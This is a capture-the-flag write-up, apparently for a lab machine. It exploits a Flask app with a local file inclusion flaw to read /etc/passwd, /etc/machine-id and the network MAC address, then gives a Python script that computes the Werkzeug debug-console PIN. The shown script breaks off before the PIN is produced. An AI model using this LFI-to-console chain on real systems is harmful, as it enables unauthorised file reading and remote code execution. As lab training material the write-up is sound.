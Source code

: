 ## Open Book

Next in our list is the application running on port 5000.

What do we already know?
* Werkzeug httpd 0.16.0
* Python 2.7.15+
* Uses Flask
* User: aas Password: AKERVA{XXX}
* Routes /file, /download
* Debug = True that means we should have acess to /console

LFI on route **/file**

POC: `http://10.13.37.11:5000/file?filename=/etc/passwd`

Leaked Environment Infos on **/download**

POC: `http://10.13.37.11:5000/download`

Our flag is located at **/home/aas/flag.txt**

## Say Friend and Enter

Visiting [http://10.13.37.11/5000/console](http://10.13.37.11/5000/console) will display the debugging console which is protected by a pin. Since we already found a LFI and are able to identify which python version is used I will use that to generate a pin based on system infos - [Hacktricks - Werkzeug PIN Exploit](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug#werkzeug-console-pin-exploit)

First I get infos that are needed to generate the pin

MAC: `http://10.13.37.11:5000/file?filename=/sys/class/net/ens33/address` (Convert using: [Vaultr](http://vaultr.com))
Machine-ID: `http://10.13.37.11:5000/file?filename=/etc/machine-id`
User: `http://10.13.37.11:5000/file?filename=/etc/passwd` (Guessed it was aas)

```python
import hashlib
from itertools import chain
probably_public_bits = [
        'aas',# username
        'flask.app',# modname
        'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/usr/local/lib/python2.7/dist-packages/flask/app.pyc' # getattr(mod, '__file__', None),
]

private_bits = [
        '345052354586',# str(uuid.getnode()),  /sys/class/net/ens33/address
        '258f132cd7e647caaf5510e3aca997c1'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
        if not bit:
                continue
        if isinstance(bit, str):
                bit = bit.encode('utf-8')
        h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
        h.update(b'pinsalt')
```